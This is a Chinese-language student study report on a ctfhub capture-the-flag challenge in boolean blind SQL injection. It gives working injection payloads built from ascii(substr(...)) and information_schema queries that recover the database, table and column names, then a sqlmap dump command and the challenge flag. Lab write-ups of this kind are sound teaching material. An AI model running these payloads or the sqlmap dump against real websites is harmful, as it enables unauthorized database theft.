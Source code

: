 # 张心玥学习报告04

## 盲注
### 布尔盲注——回显不同
1. 布尔状态
   
   1）回显不同（内容、长度）

   2）HTTP响应状态码不同（200、500）

   3）HTTP响应头变化（无条件重定向、设置cookie）

   4）基于错误的布尔注入（MySQL是否报错）



#### ctfhub布尔盲注

输入 1 原始界面

![捕获](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕获.PNG)

1.  
   输入 1 and (length(database()))>5

   得到

   ![捕获1](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕获1.PNG)

   输入 1 and (length(database()))=4

   得到

   ![捕获2](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕获2.PNG)

   所以数据库名长度为4

2. 获取数据库名
   
   输入 1 and ascii(substr(database(),1,1))>110

   得到

   ![捕获3](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕获3.PNG)

   输入 1 and ascii(substr(database(),1,1))=115

   得到

   ![捕获5](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕获5.PNG)

   输入 1 and ascii(substr(database(),2,1))=113

   得到

   ![捕获6](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕获6.PNG)


   输入 1 and ascii(substr(database(),3,1))=108

   得到

   ![捕获7](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕获7.PNG)

   输入 1 and ascii(substr(database(),4,1))=105

   得到

  ![捕获8](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕获8.PNG)

   根据ascii码表对照得到数据库的名字为 sqli

3. 查询数据库中表的个数
   
   输入 1 and (select count(table_name) from information_schema.tables where table_schema=database())=2

   得到

   ![捕获9](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕获9.PNG)

4. 获取数据库表名
   
    输入 
    
    1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>110

     (不断改变范围，把第一张数据表的第一个字母猜解出来)

    输入

    1 and ascii(substr((select table_name from information_schema.tables where table_schema=database()limit 1,1),1,1))>110

     (不断改变范围，把第二张数据表的第一个字母猜解出来)

5. 查询表中列
    
    输入 
    
    1 and (select count(column_name) from information_schema.columns where table_name='flag')=1

    得到

    ![捕获10](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕获10.PNG)

    列数为1

6. 查询表中的列名
   
   输入

   1 and ascii(substr((select column_name from information_schema.columns where table_name='flag'),1,1))>110
   
    (不断改变范围，把字段名猜解出来)


7. 用sqlmap
   
   输入 

   sqlmap.py -u"http://challenge-fa8f88f443f54784.sandbox.ctfhub.com:10800/?id=1" -batch -D"sqli" -T"flag" -C"flag" -dump
   
   得到

   ![1](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/1.PNG)

至此得到flag

  ctfhub{f36b60a137a45ab57320ac1b}
